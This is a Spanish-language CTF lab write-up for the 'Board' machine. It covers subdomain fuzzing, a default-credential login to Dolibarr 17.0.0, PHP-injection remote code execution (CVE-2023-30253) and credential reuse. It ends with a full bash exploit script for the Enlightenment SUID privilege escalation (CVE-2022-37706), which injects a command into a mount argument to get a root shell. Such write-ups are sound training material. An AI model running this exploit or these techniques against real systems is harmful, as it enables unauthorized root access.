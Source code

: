 ____
- Tags: #easy   #acitve
______
# ENUMERACIÓN

#### NMAP

![[Pasted image 20240610130855.png]]

Metiéndome en la web veo que abajo del todo hay un dominio **Board.htb** que le añado a mi **/etc/hosts** para fuzzear más adelante por sub-dominios.

![[Pasted image 20240610143734.png|800]]
### FUZZING DE SUB-DOMINIOS CON: **WFUZZ**

![[Captura de pantalla 2024-06-10 143441.png|1100]]

Vemos que encontramos un sub-dominio que añadimos a nuestro **/etc/hosts** para poder acceder a él. Una vez añadido este sub-dominio nos lleva a un panel de autenticación de una aplicación llamada **Dolibarr**  con una versión la **17.0.0**, así que investigaremos un poco que es este software.

### TECNOLOGÍAS: **DOLIBAR VERSIÓN 17.0.0**, **PHP 8.2.8** 

Dolibarr es un software de gestión empresarial de código abierto que se utiliza para administrar diversas operaciones comerciales. Es un ERP (Enterprise Resource Planning) y CRM (Customer Relationship Management) que ofrece una amplia gama de funcionalidades para pequeñas y medianas empresas.

Dolibarr es altamente modular, lo que significa que los usuarios pueden activar o desactivar módulos según las necesidades específicas de su negocio. Su naturaleza de código abierto permite que los desarrolladores personalicen y amplíen sus funcionalidades, lo que lo hace una opción flexible y adaptable para diversas industrias y tipos de negocio.

### FUZZIND DE DIRS EN EL SUB-DOMINIO CRM CON: **GOBUSTER**

![[Pasted image 20240611130745.png|750]]
__________
# PASANDO EL PANEL DE AUTENTICACIÓN

Paso el panel de autenticación con las credenciales **admin:admin**. 

![[Pasted image 20240612112958.png]]

Buscando por internet veo que **Dolibarr 17.0.0** tiene un **CVE-2023-30253**, así que vamos haber en que consiste
#### **CVE-2023-30253**

Con el complemento del sitio web CMS habilitado, un atacante autenticado pude obtener la ejecución remota de comandos mediante la inyección de código PHP sin pasar las restricciones de la aplicación. En principio como vemos en la imagen de abajo parece que no nos va a interpretar código PHP que la configuración y la sanitización esta bien desarrollada, pero se puede inyectar código PHP metiéndole en lugar de empezar con las etiquetas PHP en minúsculas empezamos en mayúsculas la aplicación lo interpreta pudiendo ejecutar comandos. 
A continuación dejó el enlace donde explican la vulnerabilidad → [**LINK**](https://www.swascan.com/security-advisory-dolibarr-17-0-0/). 

![[Pasted image 20240613123049.png|1200]]

![[Pasted image 20240612123913.png]]

Con el siguiente código que dejó abajo nos enviamos una rever-shell.


![[Captura de pantalla 2024-06-13 121753.png]]
_________________________________
# DENTRO DE LA MÁQUINA

Una vez dentro de la máquina como **www-data** con una consola interactiva, veo en el **/etc/passwd** que hay un usuario con un directorio y una bash con nombre **larissa**.

![[Captura de pantalla 2024-06-13 122013.png]]

Dentro del directorio del proyecto buscando un poco veo un archivo **conf.php** con unas credenciales para la base de datos del localhost mysql.  Me meto dentro de la base de datos con estas credenciales y veo que es bastante extensa y parece que almacena información de clientes, así que lo que intento es entrar por ssh como el usuario larissa con esta credencial que he encontrado y efectivamente la autenticación es valida y consigo escalar al **user larissa** y encontrar la primer flag en su home.

![[Captura de pantalla 2024-06-12 132542.png]]
__________
## ESCALADA A ROOT

Listando por permisos SUID desde la raíz veo que hay uno que me llama la atención que no había visto nunca. **Enlightenment** es un gestor de ventanas para Linux y buscando por internet de las primas búsquedas que me aparecen es que pude realizarse una escalada de privilegios, así que empiezo a investigar y a tirar por este camino antes de buscar nada más para ver si puedo escalar a root.

![[Captura de pantalla 2024-06-13 124622.png]]

![[Pasted image 20240613130027.png]]

![[Pasted image 20240613130711.png]]

Veo la versión de **Enlightenment** y veo que hay exploit para versiones más nuevas así que me imagino que valdrán para explotar esta versión. Efectivamente logó explotarlo y escalar a root. Dejó a continuación el código para la escalada de privilegios en bash.

```bash
#/usr/bin/bash
#author: bits

echo "CVE-2022-37706"
echo "[+] Buscando archivo SUID vulnerable..."
echo "[+] Esto puede tardar unos segundos...."

# PROBLMEA ACTUAL

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null)
if [ -z "$file" ];
then
  echo "[!] No se pudo encontrar el archvio SUID vulnerable"
  exit 1
fi

echo "[+] Binario SUID vulnerable encontrado"
echo "[*] VAMOS A INTENTAR ABRIR UNA SHELL ROOT"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/bash" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Bienvenido a la madrigurea del root ;)"

${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```

![[Captura de pantalla 2024-06-12 135415.png]]


